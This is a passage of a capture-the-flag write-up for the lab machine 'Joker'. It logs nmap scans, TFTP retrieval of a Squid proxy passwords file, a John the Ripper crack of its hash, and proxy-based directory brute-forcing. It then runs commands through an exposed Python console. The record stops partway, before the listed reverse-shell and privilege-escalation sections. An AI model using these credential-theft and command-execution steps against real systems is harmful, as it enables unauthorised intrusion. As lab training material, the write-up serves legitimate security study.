#### Joker

- [Attacker Info](#attacker-info)
- [Nmap Scan](#nmap-scan)
- [squid-http Proxy](#squid-http-proxy)
- [Reverse Shell](#reverse-shell)
- [Privilege Escalation - SymLink](#privilege-escalation---symlink)
- [Privilege Escalation - Tar Checkpoint](#privilege-escalation---tar-checkpoint)

###### Attacker Info

```sh
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.19  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::20c:29ff:fef1:8ebf  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f1:8e:bf  txqueuelen 1000  (Ethernet)
        RX packets 57427  bytes 86553682 (82.5 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 30631  bytes 2134447 (2.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 19  base 0x2000

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1272 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1272 (1.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.5  netmask 255.255.254.0  destination 10.10.14.5
        inet6 fe80::aa8b:5ae6:2302:4  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1003  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 100  (UNSPEC)
        RX packets 2  bytes 120 (120.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7  bytes 320 (320.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@kali:~#
```

###### Nmap Scan

```sh
root@kali:~/joker# nmap -sV -sC -oA joker.nmap 10.10.10.21

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-25 13:10 EST
Nmap scan report for 10.10.10.21
Host is up (0.20s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.3p1 Ubuntu 1ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 88:24:e3:57:10:9f:1b:17:3d:7a:f3:26:3d:b6:33:4e (RSA)
|   256 76:b6:f6:08:00:bd:68:ce:97:cb:08:e7:77:69:3d:8a (ECDSA)
|_  256 dc:91:e4:8d:d0:16:ce:cf:3d:91:82:09:23:a7:dc:86 (EdDSA)
3128/tcp open  http-proxy Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.68 seconds
root@kali:~/joker#
```

```sh
root@kali:~/joker# nmap -p- -oA all-tcp-ports 10.10.10.21

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-25 13:12 EST
Nmap scan report for 10.10.10.21
Host is up (0.19s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
3128/tcp open  squid-http

Nmap done: 1 IP address (1 host up) scanned in 244.28 seconds
root@kali:~/joker#
```

```sh
root@kali:~/joker# nmap -sU -oA all-udp-ports 10.10.10.21

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-25 13:13 EST
Nmap scan report for 10.10.10.21
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT     STATE         SERVICE
69/udp   open|filtered tftp
5355/udp open|filtered llmnr

Nmap done: 1 IP address (1 host up) scanned in 1084.86 seconds
root@kali:~/joker#
```

###### squid-http Proxy

```
http://10.10.10.21:3128
```







```sh
root@kali:~/joker# tftp 10.10.10.21
tftp> get /etc/passwd
Error code 2: Access violation
tftp> get /etc/squid.config
Error code 1: File not found
tftp> get /etc/squid.cfg
Error code 1: File not found
tftp> get /etc/squid
tftp> get /etc/squid/squid.conf
```

```sh
root@kali:~/joker# less squid.conf
root@kali:~/joker# cat squid.conf | grep -v ^\#|grep .
acl SSL_ports port 443
acl Safe_ports port 80		# http
acl Safe_ports port 21		# ftp
acl Safe_ports port 443		# https
acl Safe_ports port 70		# gopher
acl Safe_ports port 210		# wais
acl Safe_ports port 1025-65535	# unregistered ports
acl Safe_ports port 280		# http-mgmt
acl Safe_ports port 488		# gss-http
acl Safe_ports port 591		# filemaker
acl Safe_ports port 777		# multiling http
acl CONNECT method CONNECT
http_access deny !Safe_ports
http_access deny CONNECT !SSL_ports
http_access deny manager
auth_param basic program /usr/lib/squid/basic_ncsa_auth /etc/squid/passwords
auth_param basic realm kalamari
acl authenticated proxy_auth REQUIRED
http_access allow authenticated
http_access deny all
http_port 3128
root@kali:~/joker#
```

```sh
tftp> get /etc/squid/passwords
Received 48 bytes in 0.3 seconds
tftp>
```

```sh
root@kali:~/joker# cat passwords
kalamari:$apr1$zyzBxQYW$pL360IoLQ5Yum5SLTph.l0
root@kali:~/joker#
```

[``Hahscat - Example hashes``](https://hashcat.net/wiki/doku.php?id=example_hashes)



```sh
root@kali:~/joker# locate rockyou.txt
/usr/share/wordlists/rockyou.txt.gz
root@kali:~/joker#
root@kali:/usr/share/wordlists# gunzip --keep rockyou.txt.gz
```

```sh
root@kali:~/joker# john --wordlist=/usr/share/wordlists/rockyou.txt passwords
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 SSE2 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:47 8.11% (ETA: 14:06:21) 0g/s 27304p/s 27304c/s 27304C/s scarlips..scarlett16
0g 0:00:00:56 9.90% (ETA: 14:06:07) 0g/s 27746p/s 27746c/s 27746C/s lhady_g08..lhacro
0g 0:00:02:17 25.81% (ETA: 14:05:32) 0g/s 28110p/s 28110c/s 28110C/s sexy420me..sexy4125
0g 0:00:02:55 32.86% (ETA: 14:05:34) 0g/s 27606p/s 27606c/s 27606C/s oyemicant0..oyelove
0g 0:00:04:12 47.70% (ETA: 14:05:30) 0g/s 27424p/s 27424c/s 27424C/s joemir..joemily1
ihateseafood     (kalamari)
1g 0:00:04:32 DONE (2018-01-25 14:01) 0.003668g/s 27298p/s 27298c/s 27298C/s ihatesex!..ihateseabass
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/joker#
```

```
http://10.10.10.21:3128
```

```
kalamari
ihateseafood
```





```
http://127.0.0.1
```









```sh
root@kali:~/joker# curl 127.0.0.1
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
 "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
  <title>Shorty</title>
  <link rel="stylesheet" type="text/css" href="/static/style.css">
</head>
<body>
  <h1><a href="/">Shorty</a></h1>
  <div class="body">
  <h2>Create a Shorty-URL!</h2>

  <form action="" method="post">
    <p>Enter the URL you want to shorten</p>
    <p><input type="text" name="url" id="url" value=""></p>
    <p>Optionally you can give the URL a memorable name</p>
    <p><input type="text" id="alias" name="alias"><input type="submit" id="submit" value="Do!"></p>
    <p><input type="checkbox" name="private" id="private">
       <label for="private">make this URL private, so don't list it</label></p>
  </form>
</div>
  <div class="footer">
    <a href="/">new</a> |
    <a href="/list/">list</a> |
    use shorty for good, not for evil
  </div>
</body>
</html>
root@kali:~/joker#
```

```sh
root@kali:~/joker/dirsearch# ./dirsearch.py -u http://127.0.0.1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 20

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 20 | Wordlist size: 220521

Error Log: /root/joker/dirsearch/logs/errors-18-01-25_14-27-21.log

Target: http://127.0.0.1

[14:27:22] Starting:
[14:27:23] 200 -  899B  - /
[14:27:28] 301 -  251B  - /list  ->  http://127.0.0.1/list/
[14:28:38] 200 -    1KB - /console
```

```sh
root@kali:~/joker# gobuster -u http://127.0.0.1 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://127.0.0.1/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 301,302,307,200,204
[+] Expanded     : true
=====================================================
http://127.0.0.1/list (Status: 301)
http://127.0.0.1/console (Status: 200)
```

```sh
root@kali:~/joker# dirb http://127.0.0.1 -p 10.10.10.21:3128 -P kalamari:ihateseafood -r

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Thu Jan 25 14:29:03 2018
URL_BASE: http://127.0.0.1/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
PROXY: 10.10.10.21:3128
PROXY AUTHORIZATION: kalamari:ihateseafood
OPTION: Not Recursive

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://127.0.0.1/ ----
+ http://127.0.0.1/console (CODE:200|SIZE:1479)
==> DIRECTORY: http://127.0.0.1/list/

-----------------
END_TIME: Thu Jan 25 14:44:43 2018
DOWNLOADED: 4612 - FOUND: 1
root@kali:~/joker#
```

###### Reverse Shell



```python
import os
os.popen("whoami").read()
os.popen("find /etc | grep iptables").read()
os.popen("base64 -w 0 /etc/iptables/rules.v4").read()
```



```sh
root@kali:~/joker# cat iptablesb64.txt
